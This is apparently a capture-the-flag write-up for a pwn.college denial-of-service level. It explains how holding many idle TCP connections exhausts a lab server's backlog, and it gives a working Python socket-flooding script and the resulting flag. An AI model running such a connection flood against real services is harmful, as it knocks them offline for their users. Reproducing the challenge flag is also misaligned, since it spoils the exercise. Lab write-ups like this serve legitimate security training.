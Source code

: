 # 📌 Challenge Summary

**Level:** `dos1`  
**Category:** Intercepting Communication → Denial of Service  
**Goal:** Prevent the client at `10.0.0.3` from successfully connecting to the server at `10.0.0.2` on **port 31337**, thereby **denying the service**.

---

# 🧠 Understanding the Setup

- A `ServerHost` listens on `0.0.0.0:31337` and accepts connections.
- A `ClientHost` continuously tries to connect to `10.0.0.2:31337` every second and sends `"Hello, World!\n"`.
- If the client fails to connect (times out), it prints the flag and exits.
- Our host (`10.0.0.1`) is the attacker.

---

# 🔍 How We Exploit It

We want the client to **fail to connect** to the server. We can achieve this by:

- **Holding connections open** to the server from our own host.
- This consumes the server's **limited backlog** (the queue of pending connections).
- As a result, the client's connection attempt will **timeout or get refused**.

This is known as a **TCP connection exhaustion** DoS attack.

---

# 🧪 Attack Plan

1. Create many TCP sockets in our attacker code.
2. Connect them to `10.0.0.2:31337`.
3. Keep the connections open without sending or receiving any data.
4. This prevents the server from accepting new connections, including the client's.

---

# 💣 Final Exploit

```python
# working/connect.py
import socket
import time

sockets = []
for _ in range(1000):  # Enough to exhaust server socket queue
    try:
        s = socket.socket()
        s.connect(("10.0.0.2", 31337))  # Target the server
        sockets.append(s)
        time.sleep(0.01)  # Slow ramp-up to avoid local crash
    except Exception as e:
        print("Failed:", e)
        break

input("Connections held open. Press Enter to close them.\n")

for s in sockets:
    s.close()
```
### Output 
```
pwn.college{wYBitxJdMcZM-4lyAm3dUQtc6Hc.01N1AjNxwSM0IzMyEzW}
```

---
## Flag
```
pwn.college{wYBitxJdMcZM-4lyAm3dUQtc6Hc.01N1AjNxwSM0IzMyEzW}
```
---
